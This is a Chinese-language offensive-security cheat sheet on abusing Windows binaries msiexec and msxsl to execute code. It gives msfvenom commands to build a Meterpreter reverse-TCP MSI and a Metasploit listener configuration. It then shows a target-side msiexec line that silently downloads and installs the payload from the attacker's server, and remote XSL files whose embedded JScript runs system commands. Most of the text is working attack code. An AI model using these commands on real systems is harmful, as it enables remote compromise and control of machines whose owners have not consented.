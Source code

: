 **Msiexec.exe**

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

攻击端
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi

python -m SimpleHTTPServer 80

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit
```

目标端
```bash
msiexec /q /i http://192.168.1.109/1.msi
```

**msxsl.exe**

msxsl.exe 是微软用于命令行下处理 XSL 的一个程序，所以通过他，我们可以执行 JavaScript 进而执行系统命令。

下载地址 : https://www.microsoft.com/en-us/download/details.aspx?id=21714

msxsl.exe 需要接受两个文件，XML 及 XSL 文件，可以远程加载
```bash
msxsl http://192.168.1.1/1/demo.xml http://192.168.1.1/1/exec.xsl
```

demo.xml
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```

exec.xsl
```xml
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;

   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```
